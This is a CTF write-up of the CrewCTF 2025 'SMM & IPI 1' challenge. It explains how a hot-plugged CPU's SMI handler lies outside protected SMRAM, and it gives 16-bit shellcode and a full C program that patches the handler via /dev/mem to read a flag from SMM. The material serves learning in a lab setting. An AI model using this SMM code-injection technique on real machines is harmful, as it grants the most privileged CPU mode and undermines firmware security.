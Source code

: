 +++
author = "vmpr0be"
title = "CrewCTF 2025 - SMM & IPI 1"
date = "2025-09-21"
categories = ["ctf"]
+++

# CrewCTF 2025 - SMM & IPI 1

### Vocabulary

- SMM: System Management Mode, a highly privileged CPU mode.
- SMRAM: A special region of memory that is only accessible from SMM.
- SMI: An interrupt that halts current execution and switches the CPU to SMM.
- SMBASE: The base of the memory region used for SMM components (e.g., the SMI handler and saved execution state). The default SMBASE is `0x30000`.

### Overview

"You know what else OVMF does with SMM? CPU hotplugging. So I took a look.
**Flag is at physical memory `0x44440000` when read from SMM**."

This means we need to read the flag while the CPU is in SMM.

##### Hint

"I disabled something I should not have disabled. This link might help you understand what is going on: https://lore.kernel.org/all/8091f6e8-b1ec-f017-1430-00b0255729f4@redhat.com/T/"

The author also stated that interrupt logs can be extracted with a special flag:
``
-D interrupts.log -d int
``.
After hot-plugging the CPU with `./addcpu.sh`, we can see three SMIs triggered, meaning the newly plugged CPU is actually executing.

### Vulnerability

To summarize, the bug lies in the fact that when the CPU is hot-plugged, the SMBASE isn’t in SMRAM, which means the SMI handler isn’t protected.

By contrast, on a non-hot-plugged CPU, SMBASE is usually relocated into SMRAM.

### Exploitation

Since the SMI handler isn’t protected, when the hot-plugged CPU is added it will start its execution at the unprotected SMI handler at `SMBASE + 0x8000` (in this case: `0x38000`). We can patch that handler with our own code to read the flag from `0x44440000`.

When the interrupted CPU core switches to SMM, it expects the SMI handler to contain 16-bit instructions, so our injected shellcode must be 16-bit.

We need a physical region accessible outside SMM where we can store the flag read by our shellcode.

```bash
crewctf-2025:/root# cat /proc/iomem
...
00001000-0009ffff : System RAM
...
```

We’ll use `0x00001000` as storage.

#### Shellcode

The shellcode basically does the following:

- Read the flag from `0x44440000`.
- Write the flag to our storage `0x1000`.

```C
mov esi, 0x44440000   ; storage address
mov edi, 0x1000       ; memory accessible by us
mov ecx, 64           ; bytes to be copied

copy_loop:
mov al, [esi]         ; read byte of the flag
mov [edi], al         ; store it in our storage
inc esi               ; next flag byte
inc edi               ; next storage byte
dec ecx               ; decrease counter
jnz copy_loop         ; loop again
```

#### Injection

**reveal.c:**
```C
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <unistd.h>
#include <string.h>

int main() {
    int fd;
    void *map;
    
    fd = open("/dev/mem", O_RDWR);
    if (fd < 0) {
        perror("open /dev/mem");
        return 1;
    }

    map = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0x38000);
    if (map == MAP_FAILED) {
        perror("mmap");
        close(fd);
        return 1;
    }

    unsigned char shellcode[] = {
        0x66, 0xBE, 0x00, 0x00, 0x44, 0x44,
        0x66, 0xBF, 0x00, 0x10, 0x00, 0x00,
        0x66, 0xB9, 0x40, 0x00, 0x00, 0x00,
        0x67, 0x8A, 0x06,
        0x67, 0x88, 0x07,
        0x66, 0x46,
        0x66, 0x47,
        0x66, 0x49,
        0x75, 0xF2
    };

    memcpy(map, shellcode, sizeof(shellcode));
    printf("Shellcode written to 0x38000\n");

    munmap(map, 0x1000);

    system("./addcpu.sh");

    map = mmap(NULL, 64, PROT_READ, MAP_SHARED, fd, 0x1000);
    if (map == MAP_FAILED) {
        perror("mmap");
        close(fd);
        return 1;
    }

    printf("Flag: %s\n", (char*)map);

    munmap(map, 64);
    close(fd);

    return 0;
}
```

Similarly, we compile and run this program, which will:
- Inject shellcode at `0x38000`.
- Run the ./addcpu.sh script.
- Read the flag from `0x1000`.

```bash
gcc reveal.c -o reveal
./reveal
```

```bash
Shellcode written to 0x38000
...
Flag: crew{but_why_isnt_addcpu_working_*REMOVED*}
```
